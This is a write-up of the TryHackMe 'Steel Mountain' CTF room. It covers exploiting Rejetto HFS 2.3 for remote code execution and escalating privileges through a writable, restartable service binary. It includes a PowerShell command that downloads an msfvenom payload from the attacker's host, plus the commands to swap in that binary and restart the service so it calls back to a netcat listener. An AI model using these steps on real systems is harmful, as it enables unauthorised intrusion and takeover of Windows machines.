# Steel Mountain Writeup

## Overview

This is my writeup for the Steel Mountain room on TryHackMe.  This room challenges you to exploit a Windows machine with, and without, metasploit.  This is an easy room so if you are new to Windows exploitation and privilege escalation, then this room may be quite useful.

## How to Access

I completed this CTF challenge on TryHackMe.

Link to the room:
- https://tryhackme.com/room/steelmountain

## Steps

I began with an nmap scan:

```
$ nmap -sC -sV -oN initial 10.10.76.203
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-20 21:51 BST
Nmap scan report for 10.10.76.203
Host is up (0.049s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=steelmountain
| Not valid before: 2021-05-19T20:50:34
|_Not valid after:  2021-11-18T20:50:34
|_ssl-date: 2021-05-20T20:52:58+00:00; 0s from scanner time.
8080/tcp  open  http               HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49163/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:22:3e:9b:b5:df (unknown)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-20T20:52:53
|_  start_date: 2021-05-20T20:50:27

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 66.95 seconds
```

As you can see, there are two web servers running - one on port 80 and another on port 8080.  The mainpage of the former is shown below:



Inspecting the source code of the main page reveals the name of the employee of the month:



I then decided to check the other web server on port 8080.



Inspecting the source code shows that it is running a Rejetto HTTP File Server (version 2.3).  After some research, I found that versions 2.3.x are vulnerable to remote code execution (RCE).

I then booted up metasploit and configured the exploit:






As shown in the above screenshot, I gained access to the machine as the *bill* user.  The `user.txt` flag is stored in his Desktop:



The next step is to escalate privileges.  I used the `PowerUp.ps1` script which can be downloaded [here](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1).  I then used the `upload` command to upload the script to the machine:

```
meterpreter > upload /opt/windows/powersploit/Privesc/PowerUp.ps1
[*] uploading  : /opt/windows/powersploit/Privesc/PowerUp.ps1 -> PowerUp.ps1
[*] Uploaded 549.65 KiB of 549.65 KiB (100.0%): /opt/windows/powersploit/Privesc/PowerUp.ps1 -> PowerUp.ps1
[*] uploaded   : /opt/windows/powersploit/Privesc/PowerUp.ps1 -> PowerUp.ps1
```

I then loaded powershell using `load powershell` and executed the script using `powershell_shell`:

![8_CanRestart.png]

As shown above, the **AdvancedSystemCareService9**'s `CanRestart` parameter is set to *true*, meaning that you can restart this service on the system.  The directory `C:\Program Files (x86)\IObit\Advanced SystemCare` is also write-able, meaning that you can replace the application with a malicious one.

I created the exploit using `msfvenom`:



As this was uploading, I created a netcat listener on port 443.

I then uploaded it using the same command from earlier and restarted the service:



Once this was complete, I was logged in as the admin user:



From there, I found the `root.txt` flag in the `C:\Users\Administrator\Desktop` directory:



The final part of this challenge is to do it all without metasploit.  This is easily done using the Python exploit found [here](https://www.exploit-db.com/exploits/39161).

After downloading this exploit, I put in my IP address.  The instructions state that you need to have a web server and a netcat listener active at the same time for this to work.  It also tells you to download a static binary for netcat found [here](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe).

In one terminal, I started the python web server, and in another I created a netcat listener.  In a third terminal, I executed the Python exploit until my netcat listener caught the callback.

Instead of using the `PowerUp.ps1` script to find the vulnerable service, the instructions tell you to upload and execute winPEAS to enumerate the machine (found [here](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases)).  



Similar to the metasploit methodology, you create the payload using `msfvenom`, only this time you pull it into the system using powershell:

```
C:\Program Files (x86)\IObit>powershell -c wget "https://10.9.150.161:80/ASCService.exe"
```

Then, use `COPY` to place it into the correct directory:

```
C:\Program Files (x86)\IObit>COPY ASCService.exe "Advanced SystemCare"
```

Finally, restart the services as before (make sure you have netcat listening):

```
C:\Program Files (x86)\IObit> powershell -c sc stop AdvancedSystemCareService9
C:\Program Files (x86)\IObit> powershell -c sc start AdvancedSystemCareService9
```

And that's it! You've gained root twice!

## Summary and Feedback

Overall this was a pretty straightforward room.  For myself, Windows exploitation is not my strongest area so this machine was a learning experience for me.  I hope you enjoyed this writeup.